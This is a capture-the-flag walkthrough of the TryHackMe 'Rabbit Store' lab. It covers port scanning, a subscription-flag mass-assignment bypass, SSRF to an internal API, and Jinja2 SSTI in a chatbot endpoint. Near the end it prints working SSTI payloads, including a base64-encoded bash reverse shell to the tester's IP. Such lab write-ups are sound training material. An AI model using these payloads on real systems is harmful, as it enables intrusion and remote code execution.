# Rabbit Store

## Enumeration

### Nmap

Scanning ports and services:

```bash
┌──(kali㉿kali)-[~/Documents/THM_CTF/rabbit_store]
└─$ nmap -sS -sV -sC -p- -T4 10.49.133.231 -oN rabbit-nmap.txt
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-22 14:42 +0800
Stats: 0:03:14 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 26.25% done; ETC: 14:55 (0:09:05 remaining)
Stats: 0:03:15 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 26.37% done; ETC: 14:55 (0:09:05 remaining)
Stats: 0:10:39 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 76.65% done; ETC: 14:56 (0:03:15 remaining)
Nmap scan report for cloudsite.thm (10.49.133.231)
Host is up (0.12s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3f:da:55:0b:b3:a9:3b:09:5f:b1:db:53:5e:0b:ef:e2 (ECDSA)
|_  256 b7:d3:2e:a7:08:91:66:6b:30:d2:0c:f7:90:cf:9a:f4 (ED25519)
80/tcp    open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
4369/tcp  open  epmd    Erlang Port Mapper Daemon
| epmd-info:
|   epmd_port: 4369
|   nodes:
|_    rabbit: 25672
25672/tcp open  unknown
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are a few interesting open ports:

1. **22/tcp** - OpenSSH
2. **4369/tcp** - epmd (Erlang Port Mapper Daemon)
   ```text
   | epmd-info:
   |   epmd_port: 4369
   |   nodes:
   |_    rabbit: 25672
   ```

### FFuf Directory Fuzzing

I used FFuf to enumerate paths, but it didn't find any interesting directories immediately:

```bash
ffuf -u http://cloudsite.thm/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -ic
```

Output:

```text
assets                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 120ms]
javascript              [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 120ms]
                        [Status: 200, Size: 18451, Words: 6358, Lines: 408, Duration: 120ms]
:: Progress: [87651/87651] :: Job [1/1] :: 317 req/sec :: Duration: [0:05:03] :: Errors: 0 ::
```

## Exploring Authentication

I clicked on the login button on the homepage, and it redirected me to `http://storage.cloudsite.thm`. I added this virtual host to my `/etc/hosts` file.
Since the site didn't provide any useful error messages initially, I decided to sign up for a new account.



### Registering an Account

I registered an account with the following credentials:

- **Email:** user1@user.com
- **Password:** Test@12345



After logging in with the newly registered account, I noticed that our subscription state was inactive.



I intercepted the requests with Burp Suite and observed an interesting piece of data being exchanged: a JWT token.



I decided to decode the JWT token and found something very interesting: `"subscription": "inactive"`.

```json
{
  "email": "user1@user.com",
  "subscription": "inactive",
  "iat": 1774161832,
  "exp": 1774165432
}
```



### Bypassing Subscription Validation

I created a new account, but this time I intercepted the registration request and added `"subscription": "active"` directly into the JSON payload.



This successfully registered a user with an active subscription status!

## Testing SSRF (Server-Side Request Forgery)

### Upload File from URL

I logged in with the new active account:

- **Email:** user2@test.com
- **Password:** Test@1234

We now have access to upload functionality, both via a file and a URL. This looks like a great place to test for SSRF and SSTI.




I created a Python HTTP server on my local Kali VM:

```bash
python3 -m http.server 9090
```

I then tested the "Upload with URL" feature by pointing it to `http://192.168.239.66:9090` (this IP needs to be your VPN tun0 IP), and I saw that the target server reached out to our local server!




This proves the server can connect back to us. This is powerful because we can coerce the server into accessing resources on our behalf that we normally wouldn't be able to reach directly.

#### What is SSRF?

SSRF occurs when you trick a server into making a request for you.
Normally, the flow is:
`You -> Target`

With SSRF, it becomes:
`You -> Server -> Target`

Think of it this way: You are outside a locked house. The server is inside, and there are secret rooms (internal services) inside. You can’t go inside yourself, but you pass a note under the door: _"Hey, go to the bedroom and tell me what is in there."_ If the person inside listens and reports back, that’s SSRF!

### API Discovery via Re-fuzzing

I tried uploading a random image to intercept the request and gather more information.



I noticed a request sent to the `/api` endpoint. This seemed interesting, so I used `ffuf` again to see if there were any hidden API routes.

```bash
ffuf -u http://storage.cloudsite.thm/api/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Output:

```text
        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://storage.cloudsite.thm/api/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

login                   [Status: 405, Size: 36, Words: 4, Lines: 1, Duration: 151ms]
register                [Status: 405, Size: 36, Words: 4, Lines: 1, Duration: 143ms]
docs                    [Status: 403, Size: 27, Words: 2, Lines: 1, Duration: 122ms]
uploads                 [Status: 401, Size: 32, Words: 3, Lines: 1, Duration: 117ms]
Login                   [Status: 405, Size: 36, Words: 4, Lines: 1, Duration: 118ms]
Docs                    [Status: 403, Size: 27, Words: 2, Lines: 1, Duration: 121ms]
Register                [Status: 405, Size: 36, Words: 4, Lines: 1, Duration: 118ms]
```

I tried accessing the `api/docs` route but received an access denied error. However, since I confirmed the SSRF vulnerability earlier, let's use it to fetch the document




I instructed the server to upload the contents from `http://localhost/api/docs`. When checking the uploaded file, here is the result:




I got a HTML file



## Exposing the Local API Endpoint

Using Wappalyzer, I noticed that the web application runs on ExpressJS. ExpressJS frequently runs on port `3000` by default. I decided to try uploading the file from `http://localhost:3000/api/docs`.




This successfully exposed the real API endpoint documentation!



```text
Endpoints Perfectly Completed

POST Requests:
/api/register - For registering user
/api/login - For loggin in the user
/api/upload - For uploading files
/api/store-url - For uploadion files via url
/api/fetch_messeges_from_chatbot - Currently, the chatbot is under development. Once development is complete, it will be used in the future.

GET Requests:
/api/uploads/filename - To view the uploaded files
/dashboard/inactive - Dashboard for inactive user
/dashboard/active - Dashboard for active user

Note: All requests to this endpoint are sent in JSON format.
```

## Reverse Shell via SSTI

I discovered a new endpoint at `/api/fetch_messeges_from_chatbot`. I intercepted a request to it and sent it to Burp Repeater.



A `GET` request was not allowed, so I changed the request method to `POST` and set the `Content-Type` to `application/json`.



The application responded that the `username` field is required, allowing us to start crafting payloads targeting this parameter.



### SSTI (Server-Side Template Injection) Validation

SSTI happens when a server runs unsanitized user input as executable template code instead of treating it as plain text. I supplied a basic mathematical payload `{{7*7}}` to test this functionality.



As seen above, the server executed the mathematical operation and returned `49`. We have confirmed the presence of SSTI!

Next, I induced an error intentionally to gather environmental information.



The server threw an exception revealing it's running **Jinja2** (Python). Furthermore, analyzing the error closely, the `SECRET_KEY` was leaked!



Using standard Jinja2 escalation techniques ([SSTI Exploitation Reference](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/)), I sent the following payload to execute the `id` command:

```json
{
  "username": "{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}"
}
```

The server evaluated our payload and responded with user information!



Now it’s time to upgrade to a reverse shell. Let's modify the payload and start a netcat listener to catch the incoming connection.
I used [RevShells](https://www.revshells.com/) to generate my reverse shell payload.



Payload structure:
`{{request.application.__globals__.__builtins__.__import__('os').popen('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIzOS42Ni80NDQ0IDA+JjE= | base64 -d | bash').read()}}`



Successfully caught the reverse shell connection!



### Upgrading the Shell

To get a stable interactive shell, run the following commands:

```bash
SHELL=/bin/bash script -q /dev/null
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Press CTRL + Z to background the process
stty raw -echo && fg
```

Finally, get initial user flag!

